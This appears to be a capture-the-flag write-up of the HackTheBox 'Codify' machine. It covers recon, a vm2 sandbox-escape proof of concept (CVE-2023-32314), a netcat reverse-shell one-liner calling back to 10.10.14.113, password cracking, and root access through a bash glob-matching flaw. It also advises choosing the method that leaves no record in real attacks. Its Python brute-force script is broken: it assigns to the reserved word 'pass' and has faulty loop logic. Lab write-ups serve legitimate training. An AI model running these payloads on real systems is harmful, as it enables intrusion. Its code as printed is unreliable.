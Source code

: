 ```yaml
---
title: Codify Writeup - HackTheBox
date: 2024-01-12
categories:
  - Writeups
  - HTB
tags:
  - Linux
  - HTB
  - CTF
  - Easy
img_path: /assets/img/commons/codify/
image: codify.png
---
```


Hello!

In this write-up, we will dive into the **HackTheBox** [**Codify**](https://app.hackthebox.com/machines/574) machine.
It is a **Linux** machine on which we will take advantage of **remote command execution** in a NodeJS sandbox, we will get a **reverse shell** and then, we will proceed to do a **privilege escalation** using **python scripting** in order to own the system.


Let's go!

## Active recognition
---

As a first step, we will execute the `ping` command to verify that the target machine is active.

```bash
> ping -c 1 10.10.11.239
PING 10.10.11.239 (10.10.11.239) 56(84) bytes of data.
64 bytes from 10.10.11.239: icmp_seq=1 ttl=63 time=118 ms

--- 10.10.11.239 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 118.172/118.172/118.172/0.000 ms
```

## Port scaning
---

Next, we run a scan with `nmap` to identify open ports on the target machine.

```bash
nmap -sT -Pn -vvv 10.10.11.239
```

![nmap](nmap.png)

As usual, ports 22 (SSH) and 80 (HTTP) are open, as well as ports 3000 (we assume it is the one in charge of running the application) and 5555 (syn-ack!?).

After the port enumeration, we access to the browser to see what's on the http server.

![home](home.png)


## Exploitation
---
We access to the **Try Now** section and we find a NodeJS sandbox. I guess we can run JavaScript code and, after some testing, I tried to use the `exec()` function, that allows us to execute bash commands through JavaScript.

Obviously, it doesn't work (it would be too easy). However, we can execute commands remotely by exploiting the vulnerability [**CVE-2023-32314**](https://www.cvedetails.com/cve/CVE-2023-32314/): [*vm2 Sandbox escape vulnerability*](https://github.com/advisories/GHSA-whpj-8f3w-67p5?source=post_page-----466a012c59ce--------------------------------).

Within the github referenced above, we found a PoC written in JavaScript that abuses the unexpected creation of a Host object based on the **Proxy** specification:

```js
const { VM } = require("vm2");
const vm = new VM();

const code = `
	const err = new Error();
	err.name = {
		toString: new Proxy(() => "",
		{
			apply(target, thiz, args) {
				const process = args.constructor.constructor("return process")();
				throw process.mainModule.require("child_process")
					.execSync("echo 'this is a test'").toString();
			},
		}),
	};
	try {
		err.stack;
	} catch (stdout) {
		stdout;
	}
`;

console.log(vm.run(code)); // This will execute the bash command echo 'this is a test'
```

Once we have verified that it works, we try to run the command: `ls -l`:

![rce](rce.png)

From here, we have two options:
1. Adding our SSH credentials to the **authorized_keys** file in `~/.ssh`
2. Obtaining a reverse shell by taking advantage of the RCE (Remote Command Execution)

In a real environment, we should discard the first option (so as not to leave a record of the attack) so I'm going to go with the second one.



## Information gathering
---
### Obtaining a Reverse Shell
As usual, we are going to open **netcat** to intercept the shell (using the command: `nc -lnvp 443`). To get it, let's execute in the sandbox the next command (using the JavaScript code we have seen before)

```bash
rm /tmp/f && mkfifo /tmp/f && cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.113 443 >/tmp/f
```

 

![revshell](reverse_shell.png)

After accessing the shell I try to access `/home/joshua` but without success. I examine the folder `/var/www` and (in addition to the typical html, css and js folders) I find a folder called **contact**.

### Obtaining user credentials and user flag
Inside the **contact** folder, we find a file called **tickets.db**

![tickets](tickets_db.png)

We find the hashed password for user *joshua*. We use **JohnTheRipper** to get the password in plain text.

![john](john.png)

Now, we can access via SSH as the user *joshua* and get the **user.txt** flag.

## Privilege escalation
---
Now that we have user access to the system, let's look at how we can escalate privileges. We start by loking for which processes are running with superuser permissions and are also visible to our user.

![sudo-l](scale_1.png)

We can see that the user has root access to the **mysql-backup.sh** file. Let's see what it contains:

![mysql-backup.sh](scale_2_mysql_backup.png)


There is an error in the script. In bash, when you do a text comparison using `==`, if the right side of the equality does not use quotes, bash uses **pattern matching** instead of interpreting it as a string.

Taking advantage of this, I try to execute the script and when it asks me for the password I use `*`, result?

![scale3](scale_3.png)

Voilà, password confirmed!

We can take advantage of this to obtain the root password (by creating a small python script)

```python
import string
import subprocess

all = list(string.ascii_letters + string.digits)
pass = ""
found = False

while not found:
	for character in all:
		command = f"echo '{pass}{character}*' | sudo /opt/scripts/mysql-backup.sh"
		output = subprocess.run(command, shell=True, stdout=subprocess.PIPE,
			stderr=subprocess.PIPE, text=True).stdout

		if "Password confirmed!" in output:
			pass += character
			print(pass)
			break
		else:
			found = True
```

The execution of this script returns the following:

![root_passwd](root_password.png)

Once we obtain the root password, we can access the system as superuser. We have already compromised the whole system and (of course) we can now obtain the final flag of the challenge.

> H4Ppy H4ck1ng!
